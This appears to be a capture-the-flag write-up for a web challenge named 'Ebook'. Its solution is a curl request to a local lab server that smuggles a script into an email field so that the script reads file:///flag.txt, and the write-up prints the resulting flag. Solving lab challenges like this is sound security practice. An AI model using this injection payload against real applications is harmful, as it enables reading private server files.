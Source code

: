 # Ebook

Description: Do you like reading? Check out this website to get a preview of some great books.

# Solution

If the below command does not work you might need to update the cookie with a valid one create a user and login

```bash
curl 'http://localhost:5000/order/1' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: ebook=eyJpZCI6MX0.YXmnrw.hjhKtxLI7SLBTElSlCbJp7XVLDw' \
  --data-raw '{"email":["ignacio.dominguez95@gmail.com","<script>x=new XMLHttpRequest;x.onload=function(){document.body.appendChild(document.createTextNode(this.responseText))};x.open(\"GET\",\"file:///flag.txt\");x.send();</script>"]}'
```

# Flag

flag{1bf6c08dfe83a9d42e77c6915b0260f5}
